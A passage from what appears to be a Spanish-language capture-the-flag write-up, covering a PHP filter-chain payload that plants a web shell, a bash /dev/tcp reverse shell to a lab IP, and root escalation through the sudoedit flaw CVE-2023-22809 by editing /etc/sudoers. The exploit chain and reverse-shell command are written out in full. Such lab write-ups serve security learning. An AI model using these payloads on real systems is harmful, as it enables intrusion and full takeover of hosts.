onv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=home&0=file_put_contents('rce.php',base64_decode('PD89YCRfR0VUWzBdYD8%2b'));
```



Y para ejecutar comandos podemos observar el exploit que ejecuta lo siguiente:

```c
[...]
print("[+] Access at " + base_url + "/rce.php?0=whoami")
[...]
```

por lo que nuestra petición seria `/rce.php?0=whoami`




### Revershell

Para obtener una revershell debemos de ponernos a la escucha con `ncat`.

```c
❯ ncat -lnvp 443
```

Al enviar la petición no recibimos nada.



Por lo que vamos a poner nuestra revershell en urlencode y para ello podemos usar [https://www.urlencoder.org/](https://www.urlencoder.org/):

```
bash -c 'exec bash -i &>/dev/tcp/192.168.226.19/443 <&1'

bash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F192.168.226.19%2F443%20%3C%261%27
```

Y ahora volvemos a enviar 





Recibimos una revershell como el usuario `www-data`

# Escalada de privilegios

## Usuario - Jessica

Enumerando encontramos que se tiene un usuario `jessica` en el servidor.



y haciendo uso de la contraseña que encontramos podemos convertirnos en el usuario `jessica`



Ahora enumerando los permisos con `sudo -l`

```c
jessica@5b157fab2c86:/home$ sudo -l
```



Encontramos que el usuario puede ejecutar `sudoedit /var/www/html/*` de manera privilegiada.

Buscando un poco sobre como escalar privilegios podremos encontrar esto:



## CVE-2023-22809 - root

En el siguiente sitio web encontraremos el POC a detalle:

- [https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis](https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis)
- [https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/)

Esta vulnerabilidad  se encuentra en versiones inferiores a 1.10 de sudo y permite editar el contenido de cualquier archivo. Con `sudo --version` podemos ver la versión




para explotar la vulnerabilidad necesitamos una variable `EDITOR` pero esta hace uso de un editor.

```c
export EDITOR="vim -- /etc/sudoers"
```



observamos que el único que esta instalado es `nano`

```c
export EDITOR="nano -- /etc/sudorers"
```

ahora debemos ejecutar:

```c
sudo sudoedit /var/www/html/index.php
```



Ahora debemos de darnos permisos:

```c
jessica ALL=(ALL:ALL) ALL
```




Luego procederemos a guardar y a ejecutar `sudo su` con la que podremos convertirnos en root.


